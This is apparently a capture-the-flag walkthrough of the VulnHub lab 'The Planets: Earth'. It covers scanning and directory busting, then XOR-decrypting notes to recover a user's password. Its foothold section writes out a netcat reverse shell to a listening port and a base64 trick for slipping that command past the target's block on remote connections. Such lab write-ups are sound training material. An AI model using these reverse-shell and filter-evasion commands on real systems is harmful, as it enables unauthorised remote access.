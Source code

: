 Link: [The Planets: Earth](https://www.vulnhub.com/entry/the-planets-earth,755/)

[Walkthrough (Video) by Techno Science](https://youtu.be/e9de7AK0i2s):
Walkthrough (Text): 

## Enumeration
Interface name: `ifconfig`

Get target IP: `sudo netdiscover -i eth1` - Interface name

Network Scan for Open Ports: `nmap -sV -sC -v -T4 192.168.56.103 `
No. of open ports: 3 
2 Host names

`sudo nano /etc/hosts`
Paste host name with IP address
`192.168.56.193 earth.local terratest.earth.local`
CTRL+X+ENTER  

Open browser
`earth.local`

Directory Busting - GoBuster
`gobuster dir -u https://earth.local/ -w /usr/share/wordlist/dirb/common.txt` - `-u` is for target URL, `-w` is to specify word list
- Found admin page 
earth.local/admin -> Login 
- Find credentials 
- Second DNS: Test site, give credentials
https://terratest.earth.local -> Accept risk
- Brute force directory using GoBuster
`gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlist/dirb/common.txt`
- robots.txt
  - testingnotes.txt -> XOR encryption as algorithm
 
 ## Decrypting:
 - Cyberchef download on google, save file
 
 ![image](https://user-images.githubusercontent.com/80029462/235673037-efdf02fe-ab4d-4a44-aff9-608f59213e31.png)
 
Use Wired Connection 1 if server error
- After download change back to usual connection
- Extract file, click on HTNL
- Open test data, decrypt them to XOR, drag drop hex and XOR.
- Key: update from testdata.txt, set to UTF8
- Copy and paste one by one
  - Get repeating string = Password for user 'terra'


## Foothold
Login with password
CLI command line interface 
`whoami`
- Find user flag: `ls /var/earth_web/user_flag.txt`
Command line: (Flag)

In terminal:
`ifconfig` to get machine IP
`nc -lvnp 4444` - listening port 

Remote command line shell using Netcat:
`nc -e /bin/bash machine IP (from above) 4444`

Remove connections are forbidden
- bypass by converting it to decimal notation / encode command in base64

In terminal:
`echo nc -e /bin/bash machine IP (from above) 4444 | base64`
- Copy output and run with `output | base64 -d | bash`
